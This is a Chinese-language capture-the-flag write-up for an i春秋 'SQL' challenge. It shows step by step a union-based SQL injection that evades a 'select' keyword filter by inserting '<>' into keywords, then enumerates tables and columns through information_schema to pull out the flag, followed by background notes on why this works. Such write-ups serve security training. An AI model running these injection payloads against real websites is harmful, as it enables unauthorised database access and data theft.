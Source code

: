 # SQL
## 题目内容
出题人就告诉你这是个注入，有种别走！

## 思路
打开 url ：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1  
如图：  
![avatar](./picture/sql_1.png)  

查看源码，发现表名是 info：  
![avatar](./picture/sql_2.png)  

考虑直接注入 http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union select * from info  
显示：  
![avatar](./picture/sql_3.png)  

被发现了！应该是关键词过滤了，并通过尝试，发现，没有过滤 union，过滤的是 select，试图绕过：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct * from info  
![avatar](./picture/sql_4.png)  

芜湖，只有两行。  
**（有啥用？为啥不能直接显示 flag ？）**  
尝试使用 order by 查看列数，因为 select 出来的列数比较小，直接看两倍是否有东西：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 ord<>er by 4  
发现没有东西，因为数比较小，且 select 的结果确保至少两列，再尝试 3：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 ord<>er by 3  
![avatar](./picture/sql_5.png)  

有意外收获。然后 select 1,2,3 发现奇怪的东西：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,2,3  
![avatar](./picture/sql_6.png)  

有点懵，查了一下，需要爆破数据库：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,database(),3  
![avatar](./picture/sql_7.png)  

发现只有一个数据库，挺好的，继续在这个数据库中爆破表名：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,table_name,3 fr<>om information_schema.tables where table_schema=database()  
![avatar](./picture/sql_8.png)  

爆破列名：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,column_name,3 fr<>om information_schema.columns where table_name='info'  
![avatar](./picture/sql_9.png)  

终于出来了，再来爆破 flag 就可以了：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,flAg_T5ZNdrm,3 fr<>om  info  
![avatar](./picture/sql_10.png)  

## 相关知识  
### 关于 information_schema 以及如何想到用 information_schema 进行爆破  
information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。  
什么是元数据呢？元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。  
在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。  
其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。  
在INFORMATION_SCHEMA中，有数个只读表。它们实际上是视图，而不是基本表，因此，你将无法看到与之相关的任何文件。

### 关于为什么<>可以绕过关键字过滤   
<>在 sql 中表示“不等于”。有可能是为了防止 XSS 漏洞，PHP 在运行的时候把 <> 删除了。  

### 关于一些自带信息
information_schema.columns：表示所有列的信息（在整个 mysql 里面）（information_schema：表示所有信息，包括库、表、列）（information_schema.tables：表示所有表的信息）  
table_schema：数据库的名称  
table_name：表的名称  
column_name：列的名称  

